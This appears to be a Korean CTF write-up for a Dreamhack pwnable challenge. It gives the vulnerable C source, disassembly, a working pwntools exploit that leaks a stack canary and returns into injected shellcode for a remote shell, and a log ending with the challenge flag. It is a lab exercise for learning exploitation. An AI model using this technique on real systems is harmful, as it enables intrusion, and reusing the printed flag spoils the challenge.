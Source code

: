 ## Return to Shellcode

### 보호 기법

```bash
[*] '/home/ion/wargame/dreamhack/pwnable/Return_to_Shellcode/r2s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

`64bit` 바이너리
`Full RELRO`와 `Canary`, `PIE` 보호 기법이 걸려있습니다.
`NX` 보호 기법이 꺼져있어서 쉘 코드를 이용한 공격이 가능합니다.

<br>
<br>


### 문제 코드

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

* `buf`의 주소를 출력해주고 있습니다.
* `Leak the Canary` 부분에서 카나리를 릭할 수 있습니다.
* 취약한 `gets` 함수로 인해 버퍼 오버플로우가 발생합니다.


<br>
<br>


### 디버깅

```bash
0x0000555555400956 <+137>:   lea    rax,[rbp-0x60]            # rax = buf
0x000055555540095a <+141>:   mov    edx,0x100                 # edx = 0x100
0x000055555540095f <+146>:   mov    rsi,rax                   # rsi = buf
0x0000555555400962 <+149>:   mov    edi,0x0                   # edi = 0
0x0000555555400967 <+154>:   call   0x555555400730 <read@plt> # read(0, buf, 0x100)
0x000055555540096c <+159>:   lea    rax,[rbp-0x60]

0x00005555554009b0 <+227>:   lea    rax,[rbp-0x60]            # rax = buf
0x00005555554009b4 <+231>:   mov    rdi,rax                   # rdi = buf
0x00005555554009b7 <+234>:   mov    eax,0x0
0x00005555554009bc <+239>:   call   0x555555400740 <gets@plt> # gets(buf)
```

첫 번째 `read` 함수로 `Canary`를 `Leak` 하고 두 번째 `gets` 함수로 버퍼 오버플로우 공격을 하면 됩니다.

![stack](https://velog.velcdn.com/images/silvergun8291/post/8b7a917b-52e3-4abe-bb42-6b6e604ef947/image.png)


<br>
<br>


### 페이로드

```bash
# Canary Leak
'A' * 89

# Buffer Overflow
shellcode + 'A' * (88 - len(shellcode)) + canary + "A" * 8 + buf_addr
```


<br>
<br>


### 익스플로잇 코드

```python
from pwn import *

def slog(name, addr):
  return success(": ".join([name, hex(addr)]))


#context.log_level = 'debug'
context.arch = "amd64"

p = remote("host3.dreamhack.games", 22998)
e = ELF("./r2s")

shellcode = asm(shellcraft.sh())


# Get buf address
p.recvuntil("Address of the buf: ")
buf = int(p.recv(14), 16)


# Canary Leak
payload = b'A' * 0x59
p.sendafter("Input: ", payload)
p.recvuntil(payload)
canary = u64(b'\x00' + p.recv(7))

slog("buf", buf)
slog("canary", canary)


# BOF
payload = shellcode
payload += b'A' * (88 - len(shellcode))
payload += p64(canary)
payload += b"A" * 8
payload += p64(buf)

p.sendlineafter("Input: ", payload)

p.interactive()
```


<br>
<br>


### 익스플로잇

```bash
ion  ~/wargame/dreamhack/pwnable/Return_to_Shellcode  python3 remote.py 2> /dev/null
[+] Opening connection to host3.dreamhack.games on port 22998: Done
[*] '/home/ion/wargame/dreamhack/pwnable/Return_to_Shellcode/r2s'
   Arch:     amd64-64-little
   RELRO:    Full RELRO
   Stack:    Canary found
   NX:       NX disabled
   PIE:      PIE enabled
   RWX:      Has RWX segments
[+] buf: 0x7ffe04ea4a60
[+] canary: 0xf28d3bc5a2a37200
[*] Switching to interactive mode
$ ls
flag
r2s
$ cat flag
DH{333eb89c9d2615dd8942ece08c1d34d5}
```
